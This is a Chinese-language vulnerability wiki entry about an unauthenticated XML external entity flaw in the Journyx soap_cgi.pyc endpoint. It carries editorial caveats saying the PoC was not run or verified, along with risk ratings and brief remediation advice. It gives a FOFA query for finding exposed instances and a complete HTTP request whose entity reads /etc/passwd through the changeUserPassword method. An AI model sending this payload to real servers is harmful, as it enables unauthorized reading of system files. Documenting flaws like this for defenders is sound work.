

# Journyx soap_cgi.pyc XXE

## 条目说明

- 对象与具体问题：Journyx；soap_cgi.pyc XXE
- 版本、配置及部署条件：版本未知；Linux passwd示例
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 目录/标题ournyx漏首字J，应改产品规范名
- SOAP changeUserPassword包有实体引用，但只截图无文字读取结果，需区分报错回显与请求反射
- 方法名为改密码，尽管此payload通常无有效账号也需说明副作用边界
- 在野已知/高影响无来源，修复无版本或链接；HTTP/XML需代码围栏

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

Journyx项目管理软件 soap_cgi.pyc 接口存在XML实体注入漏洞，未经身份认证的攻击者可以利用此漏洞读取系统内部敏感文件，获取敏感信息，使系统处于极不安全的状态。

影响版本

Journyx项目管理软件

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="Journyx"

POC/EXP：

```http
POST /jtcgi/soap_cgi.pyc HTTP/1.1
Host: 127.0.0.1
User-Agent:Mozilla/5.0 (WindowsNT10.0;Win64; x64) AppleWebKit/537.36 (KHTML, likeGecko)Chrome/96.0.4664.93Safari/537.36
Content-Type: application/xml

<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM "file:///etc/passwd">]><soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header/><soapenv:Body><changeUserPassword><username>&test;</username><curpwd>zzz</curpwd><newpwd>zzz123</newpwd></changeUserPassword></soapenv:Body></soapenv:Envelope>
```





## 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
